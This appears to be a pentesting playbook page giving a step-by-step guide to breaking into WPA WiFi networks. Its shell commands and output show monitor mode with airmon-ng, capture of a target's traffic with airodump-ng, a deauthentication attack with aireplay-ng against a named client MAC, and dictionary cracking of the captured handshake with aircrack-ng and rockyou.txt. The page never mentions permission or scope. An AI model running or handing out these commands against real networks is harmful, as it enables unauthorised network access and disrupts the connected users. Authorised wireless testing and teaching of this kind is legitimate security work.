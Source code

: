 ```yaml
---
slug: /playbooks/wifi
pagination_next: null
pagination_prev: null
---
```

# Pentesting wifi networks

Put your wifi interface in monitor mode to capture not only the WiFi traffic routed to the device, but all the traffic that is transmitted over the air.

## Enable monitor mode

1. Check if you have processes that will interfere with monitor mode:

```bash
└─$ sudo airmon-ng check                                                    
[sudo] password for gal: 

Found 4 processes that could cause trouble.
Kill them using 'airmon-ng check kill' before putting
the card in monitor mode, they will interfere by changing channels
and sometimes putting the interface back in managed mode

    PID Name
    817 avahi-daemon
    839 avahi-daemon
    891 NetworkManager
    963 wpa_supplicant
```

2. Kill them

```bash
┌──(gal㉿gal)-[~/workspace/gal/docs]
└─$ sudo airmon-ng check kill

Killing these processes:

    PID Name
    963 wpa_supplicant
```

3. Start monitor mode

```bash
└─$ sudo airmon-ng start wlan0  


PHY     Interface       Driver          Chipset

phy0    wlan0           iwlwifi         Intel Corporation Alder Lake-P PCH CNVi WiFi (rev 01)
                (mac80211 monitor mode vif enabled for [phy0]wlan0 on [phy0]wlan0mon)
                (mac80211 station mode vif disabled for [phy0]wlan0)
```

Now `wlan0` might change to `wlan0mon`

## Capture the traffic

1. Start checking what's around:

```bash
sudo airodump-ng wlan0mon
```

2. Once you have found a target, specify the channel and the bssid:

```bash
sudo airodump-ng --bssid 66:8B:92:F9:A2:9A  -w /tmp/guifiwc wlan0mon -c 11
```

This will store the traffic in the specified files with `-w`. Once you find an station connected to the bssid, you can start a `de-auth` attack.

## Deauth attack

The deauth attack will send packets to the WiFi client to force a de-authentication and a later authentication within the network. This will produce a bunch of auth messages signed with the hash of the WiFi password, which later we'll try to bruteforce with a dictionary attack.

```bash
sudo aireplay-ng -0 2 -c FA:50:A4:49:2F:AA -a 66:8B:92:F9:A2:9A wlan0mon
```

`-0` means deauth and `2` is the number of deauth packets to send
`-c` is the client MAC address
`-a` is the station BSSID.

Once this is done successfully, `airodump` will show a bunch of received data.

## Crack the password

Now pass the capture to `aircrack-ng` to bruteforce the password using a dictionary:

```bash
aircrack-ng -a2 -b 66:8B:92:F9:A2:9A -w /usr/share/wordlists/rockyou.txt /tmp/guifiwc-02.cap
```

## Revert to normal mode

Stop airmin-ng:

```bash
└─$ sudo airmon-ng stop wlan0mon

PHY     Interface       Driver          Chipset

phy0    wlan0mon        iwlwifi         Intel Corporation Alder Lake-P PCH CNVi WiFi (rev 01)
                (mac80211 station mode vif enabled on [phy0]wlan0)
                (mac80211 monitor mode vif disabled for [phy0]wlan0mon)
```

You might need to start `NetworkManager` or similar:

```bash
sudo NetworkManager
```